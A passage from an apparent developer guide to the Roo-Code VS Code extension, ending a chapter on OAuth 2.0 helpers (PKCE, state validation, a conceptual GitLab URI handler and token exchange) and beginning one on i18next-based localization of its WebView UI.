9.  **Completion:** The initial `startGitLabAuth` promise might resolve, or the UI state is updated to reflect the successful connection.

## Key Concepts

1.  **OAuth 2.0 Flows:** Primarily Authorization Code Grant (often with PKCE - Proof Key for Code Exchange). PKCE is preferred for public clients like VS Code extensions as it avoids needing a client secret in the extension code.
2.  **`vscode.authentication` API:** VS Code's preferred, high-level API for handling authentication flows.
    *   `vscode.authentication.getSession(providerId, scopes, options)`: Triggers the authentication flow for a provider *built into VS Code* or one registered by *another extension*. VS Code handles the browser redirect, callback URI, state/PKCE, and token exchange/storage/refresh for supported providers (like GitHub, Microsoft). This is the **ideal** approach if the target service is supported.
    *   Roo-Code would use this for GitHub/Microsoft authentication if needed.
3.  **`vscode.window.registerUriHandler`:** Used if implementing a custom OAuth flow for a service *not* covered by `vscode.authentication`.
    *   The extension registers a handler for a specific URI scheme (e.g., `vscode://<publisher>.<extensionName>/`).
    *   The `redirect_uri` provided to the OAuth service points to this custom URI.
    *   When the user is redirected back, VS Code invokes the registered handler, passing the `vscode.Uri`. The handler extracts the `code` and `state`.
4.  **PKCE (Proof Key for Code Exchange):** A security extension for OAuth Authorization Code Grant.
    *   The extension generates a secret `code_verifier`.
    *   It creates a hashed `code_challenge` from the verifier.
    *   The `code_challenge` is sent in the initial authorization request.
    *   The plain `code_verifier` is sent in the token exchange request.
    *   The OAuth server verifies the challenge against the verifier, ensuring the token request comes from the same client that initiated the authorization flow. This prevents authorization code interception attacks.
5.  **State Parameter:** A unique, unpredictable string generated by the extension and included in the authorization request. The OAuth server must return this exact value in the callback. The extension verifies it matches to prevent Cross-Site Request Forgery (CSRF).
6.  **Token Exchange:** The process of sending the received authorization `code` (and potentially PKCE `code_verifier` or client credentials) to the OAuth provider's token endpoint via a POST request to obtain access and refresh tokens. **This step should ideally occur on a secure backend server if a client secret is required.** If using PKCE, it can sometimes be done from the extension, but care must be taken not to expose other sensitive details.
7.  **Secure Token Storage:** Access and refresh tokens must be stored securely using `vscode.ExtensionContext.secrets` ([Chapter 11: ContextProxy](11_contextproxy.md) would use this).
8.  **Token Refresh:** Refresh tokens are used to obtain new access tokens when the current one expires, without requiring the user to log in again. Logic is needed to detect expired access tokens (e.g., 401 errors from API calls), use the refresh token to get a new access token, store the new tokens, and retry the original API call. This refresh logic is often complex to implement correctly. `vscode.authentication` handles this automatically for its supported providers.

## Using OAuth Helpers (Hypothetical GitLab Example)

Since specific OAuth helpers might not be explicitly detailed in the provided structure, we illustrate the conceptual usage pattern, likely involving direct use of VS Code APIs or custom functions.

**Conceptual Flow in Command Handler:**

```typescript
// --- File: src/activate/registerAuthCommands.ts --- (Conceptual)
import * as vscode from "vscode";
import * as crypto from "crypto"; // For PKCE / state
import axios from "axios"; // For token exchange

const GITLAB_CLIENT_ID = "YOUR_GITLAB_APP_CLIENT_ID";
const GITLAB_AUTH_URL = "https://gitlab.com/oauth/authorize";
const GITLAB_TOKEN_URL = "https://gitlab.com/oauth/token";
// Redirect URI using VS Code's custom URI scheme
const REDIRECT_URI = "vscode://<publisher>.<extensionName>/auth/gitlab";

// Store temporary state for verification
const pendingAuthState = new Map<string, { pkceVerifier: string; resolve: (token: string | null) => void; reject: (reason?: any) => void }>();

// Helper for PKCE
function generatePkceChallenge(verifier: string): string {
    const hash = crypto.createHash('sha256').update(verifier).digest();
    return hash.toString('base64url'); // base64url encoding
}

// Function called by UI/Command
async function startGitLabAuthFlow(): Promise<string | null> {
    return new Promise((resolve, reject) => {
        const state = crypto.randomBytes(16).toString('hex');
        const pkceVerifier = crypto.randomBytes(32).toString('base64url');
        const pkceChallenge = generatePkceChallenge(pkceVerifier);

        // Store verifier and promise resolvers associated with state
        pendingAuthState.set(state, { pkceVerifier, resolve, reject });

        const params = new URLSearchParams({
            client_id: GITLAB_CLIENT_ID,
            redirect_uri: REDIRECT_URI,
            response_type: "code",
            scope: "api read_user", // Requested scopes
            state: state,
            code_challenge: pkceChallenge,
            code_challenge_method: "S256",
        });

        const authUrl = `${GITLAB_AUTH_URL}?${params.toString()}`;
        console.log("Opening auth URL:", authUrl);
        vscode.env.openExternal(vscode.Uri.parse(authUrl));

        // Set a timeout for the auth flow
        setTimeout(() => {
            if (pendingAuthState.has(state)) {
                pendingAuthState.delete(state);
                reject(new Error("GitLab authentication timed out."));
            }
        }, 5 * 60 * 1000); // 5 minute timeout
    });
}

// URI Handler registered in extension.ts
class GitLabUriHandler implements vscode.UriHandler {
    public async handleUri(uri: vscode.Uri): Promise<void> {
        console.log("Received callback URI:", uri.toString());
        const queryParams = new URLSearchParams(uri.query);
        const code = queryParams.get("code");
        const state = queryParams.get("state");
        const error = queryParams.get("error");
        const errorDesc = queryParams.get("error_description");

        if (error) {
            console.error("OAuth Error:", error, errorDesc);
            const pending = state ? pendingAuthState.get(state) : undefined;
            pending?.reject(new Error(errorDesc || `GitLab authentication failed: ${error}`));
            if (state) pendingAuthState.delete(state);
            vscode.window.showErrorMessage(`GitLab authentication failed: ${errorDesc || error}`);
            return;
        }

        if (!code || !state) {
            console.error("OAuth callback missing code or state");
            vscode.window.showErrorMessage("GitLab authentication failed: Invalid response from server.");
            return;
        }

        const pending = pendingAuthState.get(state);
        if (!pending) {
            console.error("OAuth callback received for unknown/expired state:", state);
            vscode.window.showErrorMessage("GitLab authentication failed: Invalid state parameter.");
            return;
        }

        // State matches, proceed to token exchange
        pendingAuthState.delete(state); // Consume state
        try {
            const tokenData = await exchangeGitLabCodeForToken(code, pending.pkceVerifier);
            // TODO: Securely store tokenData.access_token and tokenData.refresh_token using context.secrets
            await vscode.window.showInformationMessage("GitLab connected successfully!");
            pending.resolve(tokenData.access_token); // Resolve the promise for the original caller
        } catch (exchangeError) {
            console.error("GitLab token exchange failed:", exchangeError);
            vscode.window.showErrorMessage(`GitLab token exchange failed: ${exchangeError.message}`);
            pending.reject(exchangeError);
        }
    }
}

async function exchangeGitLabCodeForToken(code: string, codeVerifier: string): Promise<{ access_token: string; refresh_token: string; /* ... */ }> {
    const tokenParams = new URLSearchParams({
        client_id: GITLAB_CLIENT_ID,
        code: code,
        grant_type: "authorization_code",
        redirect_uri: REDIRECT_URI,
        code_verifier: codeVerifier,
    });

    // IMPORTANT: If GitLab required a client secret, this request MUST
    // be proxied through a backend server. Sending secrets from the extension is insecure.
    // Assuming PKCE is sufficient here.
    const response = await axios.post(GITLAB_TOKEN_URL, tokenParams.toString(), {
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
    });

    if (response.status === 200 && response.data.access_token) {
        return response.data;
    } else {
        throw new Error(`Failed to exchange code for token. Status: ${response.status}`);
    }
}

// Command Registration
export function registerAuthCommands(context: vscode.ExtensionContext) {
    context.subscriptions.push(
        vscode.commands.registerCommand("roo-code.connectGitLab", async () => {
            try {
                const token = await startGitLabAuthFlow();
                if (token) {
                    // Store token securely
                    await context.secrets.store("gitlabAccessToken", token);
                    // Update UI state if necessary
                    // ...
                }
            } catch (error) {
                // Already shown via handleUri or timeout
            }
        })
    );
    // Register the URI Handler
    context.subscriptions.push(vscode.window.registerUriHandler(new GitLabUriHandler()));
}
```

**Explanation:**

*   **Constants:** Defines client ID, auth/token URLs, and the custom VS Code redirect URI.
*   **`pendingAuthState`:** A `Map` to temporarily store PKCE verifiers and promise resolvers, keyed by the `state` parameter, while waiting for the callback.
*   **PKCE Helpers:** Functions to generate the PKCE challenge.
*   **`startGitLabAuthFlow`:**
    *   Creates a `Promise`.
    *   Generates `state` and PKCE `verifier`/`challenge`.
    *   Stores verifier/resolvers in `pendingAuthState`.
    *   Constructs the authorization URL.
    *   Opens the URL using `vscode.env.openExternal`.
    *   Sets a timeout to reject the promise if no callback is received.
*   **`GitLabUriHandler`:**
    *   Registered via `vscode.window.registerUriHandler`.
    *   `handleUri` is called by VS Code when the redirect `vscode://...` occurs.
    *   Parses `code` and `state` from the URI query.
    *   Handles errors returned in the query.
    *   Retrieves the pending state (verifier, resolvers) using the received `state`. Performs validation.
    *   Calls `exchangeGitLabCodeForToken`.
    *   Handles success (stores tokens, resolves promise) or failure (rejects promise, shows error).
*   **`exchangeGitLabCodeForToken`:**
    *   Makes the POST request to the token endpoint using `axios`. Includes `code`, `client_id`, `redirect_uri`, and PKCE `code_verifier`.
    *   **Crucially assumes PKCE is used and no client secret is needed.**
    *   Returns token data on success, throws on failure.
*   **`registerAuthCommands`:** Registers the command (`roo-code.connectGitLab`) that initiates the flow and registers the `GitLabUriHandler`.

*Self-Correction:* The ideal way for extensions to handle OAuth is often using `vscode.authentication.getSession`. If GitLab integration were built-in or provided by another trusted extension, Roo-Code would simply call:
`const session = await vscode.authentication.getSession('gitlab', ['api', 'read_user'], { createIfNone: true });`
`const token = session.accessToken;`
This abstracts away almost all the complexity shown above. The custom flow is only necessary for services *not* integrated with `vscode.authentication`.

## Code Walkthrough

Since specific helpers aren't in the provided structure, we focus on the conceptual flow and the VS Code APIs involved.

1.  **Initiation:** A command handler calls a function like `startGitLabAuthFlow` or directly uses `vscode.authentication.getSession`.
2.  **Authorization URL:** The authorization URL is constructed (including client ID, redirect URI, scopes, state, PKCE challenge).
3.  **Redirect:** `vscode.env.openExternal` opens the URL in the default browser.
4.  **User Consent:** User interacts with the provider's login/consent screen.
5.  **Callback:** Provider redirects back to the specified `redirect_uri`.
    *   **If `vscode.authentication`:** VS Code intercepts this internally.
    *   **If custom `registerUriHandler`:** VS Code routes the URI to the extension's `handleUri` method.
6.  **Code/State Extraction:** The handler extracts the `code` and `state` from the callback URI.
7.  **State Verification:** The handler checks if the received `state` matches the original one stored locally (e.g., in `pendingAuthState`).
8.  **Token Exchange:** An HTTP POST request is made to the provider's token endpoint, sending the `code`, PKCE `verifier`, etc. (This might happen internally within `vscode.authentication` or explicitly via `axios` in a custom handler).
9.  **Token Reception:** The handler receives the `access_token` and `refresh_token`.
10. **Secure Storage:** The tokens are stored using `context.secrets.store`.
11. **Completion:** The original initiating function's promise resolves, UI state is updated.

## Internal Implementation

The implementation heavily relies on orchestrating external browser interaction and internal state/callback management, bridged by VS Code APIs.

*   **`vscode.env.openExternal`:** Simply tells the OS to open a URL in the default browser.
*   **`vscode.window.registerUriHandler`:** Registers a callback within VS Code itself. When the OS routes a custom scheme URI (`vscode://...`) back to VS Code, VS Code checks its registered handlers and invokes the matching one.
*   **`vscode.authentication.getSession`:** This is a more complex, built-in service. It manages its own internal callback URIs (often localhost ports), handles the state/PKCE generation and verification, performs the token exchange securely (potentially using backend secrets managed by VS Code or the auth provider extension), stores tokens in its own secure storage (often tied to the user's VS Code account login), and handles automatic token refresh in the background. Extensions using this API typically only need to request the session and use the provided access token.
*   **State/PKCE:** Generation involves using `crypto` module for random bytes and hashing. Storage requires a temporary map keyed by the `state` parameter.

**Sequence Diagram (Custom URI Handler Flow):**



## Modification Guidance

Modifications typically involve adding support for a new OAuth provider using a custom flow (if `vscode.authentication` isn't available).

1.  **Supporting a New Provider (e.g., "CustomService"):**
    *   **Research:** Find the provider's OAuth 2.0 documentation. Determine required parameters (client ID, scopes), endpoints (authorization, token), required flow (Authorization Code + PKCE recommended), and expected data formats.
    *   **Configuration:** Allow users to configure the `clientId` (and potentially endpoints if they vary) in Roo-Code settings. **Do not store client secrets in the extension.**
    *   **Constants:** Define constants for endpoints and the custom `REDIRECT_URI` (e.g., `vscode://<publisher>.<extensionName>/auth/customservice`).
    *   **Initiation Function (`startCustomServiceAuthFlow`):** Implement logic similar to `startGitLabAuthFlow`: generate state/PKCE, store pending state, construct auth URL, call `vscode.env.openExternal`.
    *   **URI Handler (`CustomServiceUriHandler`):** Create a new class implementing `vscode.UriHandler`. Implement `handleUri` to parse `code`/`state`, validate state, call a new `exchangeCustomServiceCodeForToken` function, store tokens in `secrets`, resolve/reject the promise stored via `pendingAuthState`.
    *   **Token Exchange Function:** Implement `exchangeCustomServiceCodeForToken` using `axios` or similar to make the POST request to the provider's token endpoint with the necessary parameters (code, client ID, redirect URI, PKCE verifier). Handle the response format.
    *   **Registration:** Register the new command (e.g., `roo-code.connectCustomService`) linked to `startCustomServiceAuthFlow` and register the `CustomServiceUriHandler` using `vscode.window.registerUriHandler` in `extension.ts` or an activation file.
    *   **Token Usage:** Implement logic elsewhere to retrieve the stored token from `secrets` when making API calls to "CustomService". Add token refresh logic if applicable (using the stored refresh token and the token exchange function).

**Best Practices:**

*   **Use `vscode.authentication`:** **Strongly prefer** using the built-in `vscode.authentication.getSession` API if the target provider (like GitHub, Microsoft) is supported. It handles most of the complexity securely.
*   **Use PKCE:** For custom flows, always use the Authorization Code Grant with PKCE. Avoid flows requiring a client secret within the extension (like Implicit Grant or Authorization Code without PKCE).
*   **Secure Secret Handling:** If a client secret is unavoidable, the token exchange step **must** happen on a backend server controlled by the extension publisher, not directly within the VS Code extension. The extension would send the `code` to the backend, which performs the exchange using the secret and returns the tokens to the extension.
*   **Secure Token Storage:** Always use `vscode.ExtensionContext.secrets` to store access and refresh tokens.
*   **State Parameter:** Always use and validate the `state` parameter to prevent CSRF. Use cryptographically strong random strings for state and PKCE verifiers.
*   **HTTPS:** Ensure all OAuth endpoint URLs use HTTPS.
*   **Clear Scopes:** Request only the minimum necessary permissions (`scope`) required by the extension.
*   **User Feedback:** Provide clear messages during the flow (e.g., "Redirecting to login...", "Authentication successful/failed.", "Token exchange failed."). Handle timeouts.

**Potential Pitfalls:**

*   **Insecure Client Secrets:** Embedding client secrets directly in extension code is a major security risk. They can be easily extracted.
*   **Token Leakage:** Storing tokens insecurely (e.g., `globalState`, files) makes them vulnerable. Always use `secrets`.
*   **CSRF:** Not using or validating the `state` parameter makes the flow vulnerable to CSRF attacks.
*   **PKCE Implementation Errors:** Incorrectly generating the challenge or verifier, or sending the wrong one during token exchange, will cause the flow to fail. Ensure correct base64url encoding.
*   **Redirect URI Mismatches:** The `redirect_uri` registered with the OAuth provider must exactly match the one used in the authorization request and the one VS Code listens for (for custom handlers).
*   **Token Refresh Complexity:** Implementing reliable automatic token refresh using refresh tokens involves handling expired token errors (e.g., 401), making the refresh request, storing new tokens, and retrying the original API call, which can be complex to get right. `vscode.authentication` handles this.
*   **Browser/Network Issues:** `openExternal` might fail, network errors can occur during token exchange, or the user might close the browser tab. Robust error handling and timeouts are needed.

## Conclusion

OAuth Helpers provide the necessary mechanisms for Roo-Code to securely authenticate users with external services using standard OAuth 2.0 flows. While the built-in `vscode.authentication` API is the preferred method for supported providers like GitHub, custom flows can be implemented for other services using `vscode.env.openExternal`, `vscode.window.registerUriHandler`, PKCE for security, and careful state management. Secure storage of tokens using `vscode.ExtensionContext.secrets` is paramount. These helpers enable Roo-Code to integrate with a broader range of external tools and platforms requiring user authentication.

Next, we examine the system Roo-Code uses for internationalization (i18n), allowing the UI to be presented in different languages: [Chapter 50: Localization System (i18n)](50_localization_system__i18n_.md).
---
# Chapter 50: Localization System (i18n)

Continuing from [Chapter 49: OAuth Helpers](49_oauth_helpers.md), which discussed authentication flows, this chapter focuses on making Roo-Code accessible to a global audience by implementing internationalization (i18n) and localization (l10n): the **Localization System (i18n)**.

## Motivation: Supporting Multiple Languages

To reach a wider user base and provide a more inclusive experience, it's essential for applications like Roo-Code to display text in the user's preferred language. Hardcoding strings (button labels, descriptions, menu items, error messages) directly into the codebase makes translation difficult, error-prone, and hard to maintain.

A dedicated Localization System allows developers to:

1.  **Externalize Strings:** Separate user-visible text from the source code into resource files (e.g., JSON files).
2.  **Translate Resources:** Create language-specific versions of these resource files (e.g., `en.json`, `fr.json`, `ja.json`).
3.  **Load Dynamically:** Detect the user's preferred language (based on VS Code's locale settings) and load the appropriate translations at runtime.
4.  **Provide Fallbacks:** Define a default language (usually English) to use if a translation is missing for the user's locale.
5.  **Format Translations:** Handle plurals, interpolation (inserting dynamic values into strings), and potentially date/number formatting according to locale conventions.

Roo-Code implements such a system using the popular `i18next` library and its companion `react-i18next` for integration with the React-based WebView UI.

**Central Use Case:** Displaying the "Save" button in the Settings UI ([Chapter 35: Settings UI Components (WebView)](35_settings_ui_components__webview_.md)).

Without i18n:
```jsx
<Button>Save</Button>
```

With i18n:
```typescript
// --- File: webview-ui/src/components/settings/SettingsView.tsx ---
import { useAppTranslation } from "@src/i18n/TranslationContext";
// ...
const { t } = useAppTranslation();
// ...
<Button onClick={handleSubmit}>{t("settings:saveButton")}</Button>
```

1.  The `useAppTranslation` hook provides the `t` function.
2.  `t("settings:saveButton")` looks up the key `"saveButton"` within the `"settings"` namespace in the currently loaded language resource file.
3.  If the user's locale is French (`fr`), and `fr.json` contains `{"settings": {"saveButton": "Enregistrer"}}`, the button will render with the text "Enregistrer".
4.  If the locale is English (`en`) or if the French translation is missing, it will fall back to the English text defined in `en.json` (e.g., `{"settings": {"saveButton": "Save"}}`).

## Key Concepts

1.  **`i18next`:** A powerful and popular internationalization framework for JavaScript. It provides the core functionality for loading translations, handling namespaces, managing language detection, formatting, and providing fallback mechanisms.
2.  **`react-i18next`:** The official React integration for `i18next`. It provides hooks (`useTranslation`) and components (`Trans`) to easily use translations within React components.
3.  **Translation Files (`public/locales/<lang>/<namespace>.json`):** Resource files containing the actual translations. Roo-Code organizes them by language code (e.g., `en`, `ja`) and then by namespace (e.g., `common.json`, `settings.json`, `mcp.json`, `tools.json`). Namespaces group related strings together, improving organization and allowing for lazy loading if needed (though Roo-Code likely loads all initially).
    *   **Example (`public/locales/en/settings.json`):**
        ```json
        {
          "title": "Settings",
          "saveButton": "Save",
          "doneButton": "Done",
          "sections": {
            "providers": "Providers",
            "autoApprove": "Auto-Approve"
          },
          "apiOptions": {
             "providerLabel": "Select API Provider"
          }
        }
        ```
4.  **i18n Initialization (`webview-ui/src/i18n/config.ts`):** Configures and initializes the `i18next` instance for the WebView UI. Key configurations include:
    *   **Backend (`i18next-http-backend`):** Configured to load translation files from the `/locales/` path relative to the WebView's base URL.
    *   **Language Detection:** Uses `navigator.language` or a setting received from the extension host to determine the initial language. VS Code's locale (`vscode.env.language`) is the primary source, passed from the host.
    *   **Fallback Language (`fallbackLng: 'en'`):** Specifies English as the default if translations for the detected language are missing.
    *   **Namespaces (`ns: [...]`):** Defines the list of expected namespaces (`common`, `settings`, etc.). `defaultNS: 'common'` specifies the default if no namespace is provided in the key.
    *   **Interpolation:** Configures how dynamic values are inserted (e.g., `escapeValue: false` as React handles escaping).
    *   **Debugging (`debug: true/false`):** Enables/disables verbose logging from `i18next` during development.
5.  **React Context Provider (`TranslationProvider` in `webview-ui/src/i18n/TranslationContext.tsx`):**
    *   Wraps the main `App` component (or relevant parts).
    *   Uses `I18nextProvider` from `react-i18next` to make the initialized `i18next` instance available to descendant components via React context.
    *   Likely includes logic (e.g., `useEffect`) to listen for language change messages from the extension host (if the user changes VS Code's language while the extension is running) and calls `i18n.changeLanguage()` accordingly.
6.  **`useAppTranslation` Hook (`webview-ui/src/i18n/TranslationContext.tsx`):** A custom hook that wraps `useTranslation` from `react-i18next`. It simplifies accessing the `t` function (for simple string lookup) and potentially the `i18n` instance itself. It might be pre-configured with default namespaces.
7.  **`t` Function:** The primary function used in components to get translated strings.
    *   `t('key')`: Looks up `key` in the default namespace.
    *   `t('namespace:key')`: Looks up `key` in the specified `namespace`.
    *   `t('key', { value: dynamicData })`: Interpolation. The JSON file would contain placeholders like `"Hello {{value}}"`.
    *   `t('key', { count: num })`: Pluralization (requires specific key structure in JSON, e.g., `key_zero`, `key_one`, `key_other`).
8.  **`Trans` Component:** A component from `react-i18next` used for translating complex elements containing nested HTML or React components, where simply inserting a string isn't sufficient.
    ```jsx
    <Trans i18nKey="common:welcomeMessage">
        Welcome to <strong>Roo-Code</strong>! Check the <a href="/docs">docs</a>.
    </Trans>
    // Corresponding JSON:
    // "welcomeMessage": "Welcome to <1>Roo-Code</1>! Check the <3>docs</3>."
    ```
9.  **Extension Host Localization (`src/i18n.ts`):** The extension host *also* needs localization for strings it generates (e.g., command titles in `package.json`, status bar messages, notification text). This often uses a different mechanism, commonly VS Code's built-in localization features (`vscode.l10n`) or a separate `i18next` instance configured for the Node.js environment. Strings in `package.json` use `%key%` syntax linked to `package.nls.json` files.

## Using the Localization System (WebView)

**1. Initialization:**

*   The `TranslationProvider` wraps the `App` component in `webview-ui/src/index.tsx` or `App.tsx`.
*   `i18n/config.ts` initializes `i18next`, loading the language based on VS Code's locale (passed via message or initial state).

**2. Translating Strings in Components:**

```typescript
// --- File: webview-ui/src/components/settings/SectionHeader.tsx ---
import React from 'react';
import { useAppTranslation } from '@src/i18n/TranslationContext'; // Import the hook

interface SectionHeaderProps {
  children: React.ReactNode; // The title element
  description?: string; // Description text or i18n key
  descriptionI18nKey?: string; // Explicit key for description
}

export const SectionHeader = ({ children, description, descriptionI18nKey }: SectionHeaderProps) => {
  const { t } = useAppTranslation(); // Get the 't' function

  // Determine description text: use key if provided, otherwise use string prop
  const descText = descriptionI18nKey ? t(descriptionI18nKey) : description;

  return (
    <div className="setting-section-header">
      <h4>{children}</h4> {/* Title is passed as children */}
      {descText && (
        <p className="text-vscode-descriptionForeground text-sm">
          {descText} {/* Render the potentially translated description */}
        </p>
      )}
    </div>
  );
};

// --- Usage in SettingsView.tsx ---
// ...
import { SectionHeader } from './SectionHeader';
// ...
<SectionHeader descriptionI18nKey="settings:autoApprove.description">
    {/* Title content */}
    <div className="flex items-center gap-2">
        <span className="codicon codicon-check w-4" />
        {/* Translate the title text */}
        <div>{t("settings:sections.autoApprove")}</div>
    </div>
</SectionHeader>
// ...
```

*Explanation:* Components import `useAppTranslation`, get the `t` function, and use it to translate static text by passing the appropriate key (including namespace if not default), e.g., `t("settings:sections.autoApprove")`. Props like `descriptionI18nKey` allow passing translation keys down.

**3. Using the `Trans` Component:**

```typescript
// --- File: webview-ui/src/components/mcp/McpView.tsx ---
// ...
import { Trans } from "react-i18next"; // Import Trans component
import { VSCodeLink } from "@vscode/webview-ui-toolkit/react";
// ...

<div className="text-sm text-vscode-descriptionForeground pb-4">
    {/* Use Trans component for text with embedded links */}
    <Trans i18nKey="mcp:description">
        {/* Default fallback content, tags match placeholders in JSON */}
        MCP allows Roo to interact with external tools. Learn more at the
        <VSCodeLink href="https://github.com/modelcontextprotocol" style={{ display: "inline" }}>
            Model Context Protocol website
        </VSCodeLink>
        and find
        <VSCodeLink href="https://github.com/modelcontextprotocol/servers" style={{ display: "inline" }}>
            community-made servers
        </VSCodeLink>
        .
    </Trans>
</div>

// --- Corresponding public/locales/en/mcp.json ---
// {
//   "description": "MCP allows Roo to interact with external tools. Learn more at the <1>Model Context Protocol website</1> and find <3>community-made servers</3>."
// }
// --- Corresponding public/locales/fr/mcp.json ---
// {
//   "description": "MCP permet à Roo d'interagir avec des outils externes. Apprenez-en plus sur le <1>site Web du Model Context Protocol</1> et trouvez des <3>serveurs créés par la communauté</3>."
// }
```
*Explanation:* The `Trans` component wraps the JSX containing elements that need to remain interactive (like `VSCodeLink`). The `i18nKey` points to the translation string, which uses placeholders like `<1>`, `<3>` corresponding to the child elements in the JSX. `react-i18next` correctly substitutes the translated text around the rendered child components.

## Code Walkthrough

### i18n Configuration (`webview-ui/src/i18n/config.ts`)

*(See full code in chapter context)*

```typescript
// --- File: webview-ui/src/i18n/config.ts ---
import i18n from "i18next";
import { initReactI18next } from "react-i18next";
import HttpBackend, { HttpBackendOptions } from "i18next-http-backend";
import LanguageDetector from "i18next-browser-languagedetector"; // For browser language detection

// Define supported languages and namespaces
export const supportedLanguages = ["en", "ja"]; // Example
export const fallbackLang = "en";
export const defaultNS = "common";
export const ns = ["common", "settings", "history", "prompts", "mcp", "tools"]; // Example namespaces

// Get base path for loading locales relative to WebView URI
// Needs to be computed dynamically based on how assets are served
const getBasePath = () => { /* ... logic to determine correct base path ... */ return "./locales"; };

// Configure i18next
i18n
	// Use HTTP backend to load translation files
	.use(HttpBackend)
	// Use browser language detector (with fallback to navigator.language)
	.use(LanguageDetector)
	// Pass i18n instance to react-i18next
	.use(initReactI18next)
	// Initialize i18next
	.init<HttpBackendOptions>({
		// Backend options
		backend: {
			loadPath: `${getBasePath()}/{{lng}}/{{ns}}.json`, // Path to translation files
		},
		// Language detection options
		detection: {
			order: ["localStorage", "navigator"], // Check localStorage first, then browser language
			caches: ["localStorage"], // Cache detected language in localStorage
			lookupLocalStorage: "i18nextLng", // Key for localStorage
		},
		// Core i18next options
		fallbackLng: fallbackLang, // Default language if detected one is unavailable
		ns: ns, // List of namespaces to load
		defaultNS: defaultNS, // Default namespace if not specified in key
		supportedLngs: supportedLanguages, // Limit loaded languages
		// lng: 'en', // Can force initial language, but detector is preferred
		debug: process.env.NODE_ENV === "development", // Enable debug logging in dev
		interpolation: {
			escapeValue: false, // React already escapes values
		},
		react: {
			useSuspense: false, // Avoid React Suspense for simplicity (can be enabled)
		},
	});

export default i18n; // Export the configured instance
```

**Explanation:**

*   **Imports:** Imports `i18next`, `react-i18next`, backend, and detector plugins.
*   **Constants:** Defines `supportedLanguages`, `fallbackLang`, `defaultNS`, `ns`.
*   **`getBasePath`:** Determines the relative path to the `locales` directory (important as WebView assets might be served from different relative paths depending on development vs. production).
*   **`.use(...)`:** Chains the plugins: `HttpBackend` (loads files via HTTP requests), `LanguageDetector` (detects user language), `initReactI18next` (integrates with React).
*   **`.init({...})`:** Configures `i18next`:
    *   `backend.loadPath`: Specifies the URL pattern to load JSON files (e.g., `./locales/en/common.json`).
    *   `detection`: Configures language detection order and caching (using `localStorage`).
    *   `fallbackLng`, `ns`, `defaultNS`, `supportedLngs`: Core i18n settings.
    *   `debug`: Enables console logging based on environment.
    *   `interpolation.escapeValue: false`: Disables default HTML escaping as React handles it.
    *   `react.useSuspense: false`: Disables Suspense integration, meaning translations must be loaded before components render (or show keys briefly).

### Context Provider & Hook (`webview-ui/src/i18n/TranslationContext.tsx`)

*(See full code in chapter context)*

```typescript
// --- File: webview-ui/src/i18n/TranslationContext.tsx ---
import React, { createContext, useContext, useEffect } from "react";
import { I18nextProvider, useTranslation as useOriginalTranslation } from "react-i18next";
import i18nInstance from "./config"; // Import the configured i18next instance
import { useExtensionState } from "../context/ExtensionStateContext"; // Import global state hook

// Type for the context value (just the i18n instance)
interface TranslationContextType {
	i18n: typeof i18nInstance;
}

const TranslationContext = createContext<TranslationContextType | undefined>(undefined);

// Provider component to wrap the application
export const TranslationProvider: React.FC<{ children: React.ReactNode }> = ({ children }) => {
	// Get the 'language' setting from the global ExtensionStateContext
	const { language } = useExtensionState();

	// Effect to change i18next language when the global setting changes
	useEffect(() => {
		if (language && i18nInstance.language !== language) {
            console.log(`i18n: Changing language to ${language}`);
			i18nInstance.changeLanguage(language).catch(err => {
                console.error("i18n: Failed to change language", err);
            });
		}
        // Initialize language based on context state if i18n hasn't loaded it yet
        else if (language && !i18nInstance.language) {
             i18nInstance.changeLanguage(language).catch(err => {
                console.error("i18n: Failed to set initial language", err);
            });
        }
	}, [language]); // Dependency array includes the language setting

	// Provide the i18next instance via React context
	return (
		<I18nextProvider i18n={i18nInstance}>
            {/* Pass instance via custom context too if needed */}
			<TranslationContext.Provider value={{ i18n: i18nInstance }}>
                {children}
            </TranslationContext.Provider>
		</I18nextProvider>
	);
};

// Custom hook for easier consumption in components
export const useAppTranslation = () => {
	const context = useContext(TranslationContext);
	if (context === undefined) { throw new Error(/* ... */); }
    // Use the hook from react-i18next
	const { t, i18n } = useOriginalTranslation();
	return { t, i18n }; // Return t function and i18n instance
};

```

**Explanation:**

*   **Imports:** Imports React context APIs, `I18nextProvider` and `useTranslation` from `react-i18next`, the configured `i18nInstance`, and the global `useExtensionState`.
*   **`TranslationProvider`:**
    *   Gets the current `language` setting from the global `ExtensionStateContext`. This setting is likely populated initially by the extension host based on `vscode.env.language`.
    *   Uses `useEffect` to watch for changes in the `language` prop. If it changes and differs from `i18nInstance.language`, it calls `i18nInstance.changeLanguage(language)` to dynamically load the new language resources. Also sets initial language if needed.
    *   Wraps children with `I18nextProvider` from `react-i18next`, making the `i18nInstance` available via context. (The custom `TranslationContext` seems slightly redundant here if only `useTranslation` is used, but might be there for direct `i18n` instance access).
*   **`useAppTranslation`:** A simple custom hook that calls the original `useTranslation()` from `react-i18next` and returns the `t` function and `i18n` instance. This provides a consistent way for Roo-Code components to access translation capabilities.

### Extension Host (`src/i18n.ts` - Conceptual)

```typescript
// --- File: src/i18n.ts --- (Conceptual)
import * as vscode from "vscode";

/**
 * Gets the user's configured VS Code language locale.
 * e.g., "en", "ja", "fr"
 */
export function getVSCodeLanguage(): string {
    // vscode.env.language gives the full locale string like "en-US" or "ja"
    // We might want just the language part.
    return vscode.env.language.split('-')[0] ?? 'en';
}

/**
 * Placeholder for initializing any i18n setup needed in the extension host itself.
 * This might involve loading resources for log messages, notifications, etc.,
 * potentially using a different i18n library or VS Code's l10n API.
 *
 * For package.json strings (%key%), VS Code handles loading from package.nls.<lang>.json.
 */
export async function initializeExtensionHostLocalization() {
    // Example: Log the detected language
    console.log(`VS Code language detected: ${vscode.env.language}, using locale: ${getVSCodeLanguage()}`);
    // If using i18next in host:
    // await i18nHostInstance.init(...)
    // await i18nHostInstance.changeLanguage(getVSCodeLanguage());
}

/**
 * Placeholder for getting a translated string in the extension host.
 */
export function tHost(key: string, options?: any): string {
    // If using i18next in host:
    // return i18nHostInstance.t(key, options);

    // If using vscode.l10n (requires setup during build/packaging):
    // return vscode.l10n.t(key, options);

    // Simple fallback:
    return key; // Just return the key if no system is set up
}
```
*Explanation:* Shows how the extension host can access the VS Code language (`vscode.env.language`) and potentially initialize its own localization mechanism (using `vscode.l10n` or a separate `i18next` instance) for strings used outside the WebView.

## Internal Implementation

1.  **Initialization:**
    *   `i18next` is initialized in `config.ts` with backend, detector, and fallback settings.
    *   `TranslationProvider` wraps the app, making `i18next` available via context.
